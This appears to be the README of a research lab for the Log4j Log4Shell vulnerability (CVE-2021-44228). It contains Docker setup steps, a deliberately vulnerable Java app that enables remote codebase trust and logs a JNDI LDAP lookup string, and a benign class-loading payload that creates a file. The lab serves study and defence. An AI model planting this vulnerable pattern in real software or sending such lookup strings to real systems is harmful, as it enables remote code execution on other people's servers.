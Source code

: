 # CVE-2021-44228 Log4j RCE (Log4Shell) Research Lab

## Docker Deployment

### Clone Repo

```
git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
### Create Local Socket Proxy

```
docker network create --gateway 192.168.55.1 --subnet 192.168.55.0/24 socket_proxy
```

### Run Docker Compose File

```
docker-compose -f docker-compose.yml up --build -d
```

### Check Docker Containers

```
docker ps

docker logs --follow ldap-server

docker logs --follow web-server
```

## Run Vulnerable App

### Compile

```
cd vulnApp
mvn -f pom.xml clean package -DskipTests
```

## Run

```
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar  com.log4jshell.App
```

## Files

### Vuln App

```
package com.log4jshell;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class App {
    private static final Logger logger = LogManager.getLogger(App.class);
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
        logger.error("${jndi:ldap://127.0.0.1:1389/CreateFile}");
    }
}
```

## CreateFile Payload

```
import java.io.File;  // Import the File class
import java.io.IOException;  // Import the IOException class to handle errors

public class CreateFile {
    public CreateFile() {}
    static {
      try {
        File myObj = new File("filename.txt");
        if (myObj.createNewFile()) {
          System.out.println("File created: " + myObj.getName());
        } else {
          System.out.println("File already exists.");
        }
      } catch (IOException e) {
        System.out.println("An error occurred.");
        e.printStackTrace();
      }
    }
    public static void main(String[] args) {
        CreateFile e = new CreateFile();
    }
}
```

## References
* https://www.smarthomebeginner.com/traefik-docker-security-best-practices/#9_Use_a_Docker_Socket_Proxy